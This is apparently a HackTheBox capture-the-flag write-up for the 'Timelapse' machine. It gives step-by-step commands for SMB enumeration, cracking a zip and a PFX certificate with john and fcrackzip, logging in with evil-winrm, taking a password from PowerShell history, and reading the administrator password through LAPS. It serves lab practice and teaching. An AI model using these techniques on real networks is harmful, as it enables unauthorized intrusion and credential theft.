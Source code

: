 # Recon

As usual we start with a port scan against the target:
```
sudo nmap -sV -p- -sC -oN nmap.txt -O 10.10.11.152 -T5
```

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Timelapse/assets/1.png">

From the looks of it we can tell it's a domain controller. Lot's of open ports to investigate.

# Enumeration
Normally a domain controller has great enumeration potential. We can use tools like ```smbclient, enum4linux, smbmap, nbtscan, rpcclient``` and there are numerous ```impacket``` scripts available.

Using ```rpcclient``` we see what privileges the current users has.
```
rpcclient -U '' -N 10.10.11.152
```

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Timelapse/assets/5.png">

Unfortunately ```enumdomusers``` is not allowed. At this point is just trial and error running different commands. Let's leave it for now.

After doing some more enumeration we find a share at ```Shares``` containing some files. 
```
smbclient -N -L //10.10.11.152/
```

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Timelapse/assets/2.png">



# Initial Foothold
Extracting the zipfile requires a password. We can use ```7z``` to get more information on the zipfile and it's encryption.

```
7z l -slt winrm_backup.zip
```

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Timelapse/assets/3.png">


We can try to crack the password using ```john``` or ```fcrackzip```. In this case I chose the latter.

```
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt winrm_backup.zip
```

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Timelapse/assets/4.png">


We have cracked the password and can now extract ```legacyy_dev_auth.pfx```.

A PFX file indicates a certificate in PKCS#12 format; it contains the certificate, the intermediate authority certificate necessary for the trustworthiness of the certificate, and the private key to the certificate. Think of it as an archive that stores everything you need to deploy a certificate.

I had to update ```john``` in order to have ```pfx2john``` available and run the following command to create a suitable hash for ```john```.

```
pfx2john legacy_dev_auth.pfx > hash
```

And pass it along to ```john```:

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash    
```

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Timelapse/assets/6.png">

We have cracked the password using the rockyou wordlist. I found [documentation](https://www.ibm.com/docs/en/arl/9.7?topic=certification-extracting-certificate-keys-from-pfx-file) how one can extract the private key and certificate from a pfx file.

Extract the private key:

```
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out legacy.key -nodes  
``` 

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Timelapse/assets/7.png">

And we do the same for the certificate:

```
openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out legacy.crt 
```

After this we alter the files by removing the header so we are only left with the key itself. We can now continue by using the keys to connect to the target with ```evil-winrm``` .

```
evil-winrm -S -k legacy.key -c legacy.crt -i 10.10.11.152
```

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Timelapse/assets/8.png">

# Lateral Movement
We are unable to use ```winPEAS``` because Microsoft Defender is blocking the file. Using an obfuscated version didn't help either. After further enumerating the host for the usual ways for privilege escalation I was unable to find anything useful. I tried running the usual Powershell scripts and commands but without any luck. I got some help pointing me in the right direction and found the Powershell history file:

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Timelapse/assets/9.png">

We found the password for the ```svc_deploy``` account and can use this to run commands as the this user.

```
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)

invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {whoami}
```

And we can check for privileges:
```
invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {whoami /priv}

invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {net user svc_deploy}
```

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Timelapse/assets/10.png">


# Privilege Escalation
We see that this user is member of the ```LAPS_Readers``` group which is useful to us because we can probably extract the local administrator password. We can check this by using the ```AD-Module```.

```
invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {Get-ADComputer -Filter * -Properties ms-Mcs-AdmPwd, ms-Mcs-AdmPwdExpirationTime}
```

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Timelapse/assets/11.png">

Now that we've found the password we can again use ```evil-winrm``` to connect to the target as ```administrator```.

```
evil-winrm -i 10.10.11.152 -u administrator -p '6yHTPR#s417Lo6/7kC{aP!WC' 
```






